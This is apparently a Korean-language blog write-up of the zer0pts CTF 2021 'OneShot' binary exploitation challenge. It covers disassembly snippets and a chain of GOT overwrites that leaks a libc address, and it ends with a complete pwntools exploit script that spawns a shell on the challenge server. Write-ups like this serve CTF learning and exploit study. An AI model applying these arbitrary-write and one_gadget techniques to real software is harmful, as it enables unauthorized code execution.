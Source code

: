 ```yaml
---
layout: post
title: zer0pts CTF 2021 OneShot write-up
categories: ctf-write-up
tags: [ctf]
---
```



## OneShot (192pts, 23solves)

### Summary

1. calloc(-1, ...) is return 0
2. puts_got → main
3. exit_got → 0x400846
4. setbuf_got → puts_plt+6 (leak!)
5. alarm_got → main+1
6. puts_got → one_gadget



정말 힘들게 풀었다. 이게 이렇게 푸는게 맞는건가란 생각을 되게 많이했다. 진짜 이 문제를 풀기 위해 별의 별 시도를 다 해봤지만 너무 길어지기에 생략한다.



calloc의 반환 값을 기준으로 원하는 offset에 4바이트씩 값을 넣을 수 있다. calloc 인자로 -1을 주면 0을 반환하기 때문에 0에서부터 원하는 offset에 값을 쓸 수 있고 이를 이용하면 GOT 영역에 값을 쓸 수 있다.



또한 calloc의 인자에 0xa000을 주면 libc 영역에 할당되어서 libc쪽 주소도 변조가 가능한데, 이를 이용해서 다양한 작업도 가능했지만 결과적으로 exploit시엔 사용하지 않았다.



일단 이 문제에서 우리가 변조 가능한 주소는 한정적이다. 무조건 4byte 단위로만 덮을 수 있기 때문에 덮다가 터지는 주소들이 몇개 있다. 이는 stdin, stdout, calloc, printf, scanf이다. 이를 제외하고 원하는 값을 덮을 수 있다.



가장 먼저 해야할 일은 puts_got를 main으로 덮어서 프로그램을 반복시키는 것이다. 그 후에 leak을 어떻게 시키면 좋을지 생각하다가 setbuf를 이용하기로 했다.



setbuf는 init_array에 등록된 setup 함수에 의해 호출되는데 이 함수 내부의 opcode를 조금 다르게 끊어서 보면 이런 가젯이 있다.

```assembly
.text:0000000000400846                 add    eax,0x200815
.text:000000000040084A                 mov    rsi, 0
.text:0000000000400850                 mov    rdi, rax
.text:0000000000400853                 call   setbuf@plt
```



이런 이상한 가젯을 사용하게 된 이유는 저 주소로 이동하게 되면 그 이후에 ret를 만나면서 스택의 최상단에 있는 주소로 이동하는데 그 주소와 eax에 들어가 있는 주소와 동일하다. 



우리가 leak할 libc 주소는 bss 영역에 저장되어 있고 그 주소들은 0x601000 영역인데, 저 가젯을 이용한다면 0x400000 영역으로 이동하는 동시에 0x601000 영역의 주소를 출력할 수 있게 된다.



여러 주소를 테스트해보다가 eax 값을 0x40082b로 주면 릭이 되는 동시에 `call alarm`으로 이동하는 것을 확인 했다.



그럼 일단 eax를 조작할 수 있어야한다. exit_got를 위의 가젯으로 변조한 뒤 scanf에서 0x40082b를 넣으면 eax에 해당 값이 담기면서 이동한다. 이 코드를 보면 이해가 될 것이다.

```assembly
.text:0000000000400766                 lea     rax, [rbp+var_10]
.text:000000000040076A                 mov     rsi, rax
.text:000000000040076D                 lea     rdi, aD         ; "%d"
.text:0000000000400774                 mov     eax, 0
.text:0000000000400779                 call    ___isoc99_scanf
.text:000000000040077E                 mov     eax, [rbp+var_10]
.text:0000000000400781                 cmp     eax, 0FFh
.text:0000000000400786                 jle     short loc_400792
.text:0000000000400788                 mov     edi, 1          ; status
.text:000000000040078D                 call    _exit
```



그리고 또 중요한 것이 setbuf 주소를 printf_plt로 주면 printf의 구조적인 문제로 인해 프로그램이 터지게된다. 그렇다고 puts_plt를 줘버리면 이미 puts는 main으로 변조되어 있다. 하지만 이때 puts_plt+6 주소를 넣어주게 되면 puts가 정삭적으로 작동하게 된다.



이제 alarm을 main으로 변조해주고 leak된 주소를 특정 함수의 got에 넣어주면 될 거 같지만 alarm_got를 main으로 바꾸면 다시 printf의 구조적인 문제로 인해 터지게 된다. 근데 이는 main+1 주소로 해주면 해결 된다. (push rbp를 하지 않기 때문에)



그럼 이제 one_gadget 주소를 특정 함수의 got에 덮으면 되는데 원래 exit를 덮을려고 했으나 4바이트를 덮자마자 프로그램이 종료되었다. 그 이유는 위에서 setbuf를 puts_plt+6으로 덮음으로써 실제 puts_got에 puts의 실제주소가 쓰였기 때문이다.



그래서 더이상 main으로 돌아가지 않았다. 그러므로 puts의 하위 4바이트에 one_gadget을 넣음으로서 셸을 획득했다.

```python
from pwn import *

#p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
p = remote("pwn.ctf.zer0pts.com", 9004)
e = ELF('./chall')

def go(a, b):
    p.sendlineafter('= ', '-1')
    p.sendlineafter('= ', str(a))
    p.sendlineafter('= ', str(b))

go(e.got['puts']/4, e.symbols['main'])
go(e.got['exit']/4, 0x400846)
go(e.got['setbuf']/4, e.plt['puts']+6)
go((e.got['setbuf']+4)/4, 0)
go(e.got['alarm']/4, 0x400738)
go((e.got['alarm']+4)/4, 0)
p.sendlineafter('= ', str(0x40082b))

libc_base = u64(p.recv(6).ljust(8, '\x00')) - 0x66230
print hex(libc_base)

one = libc_base + 0xe6e79
go(e.got['puts']/4, one & 0xffffffff)

p.interactive()
```
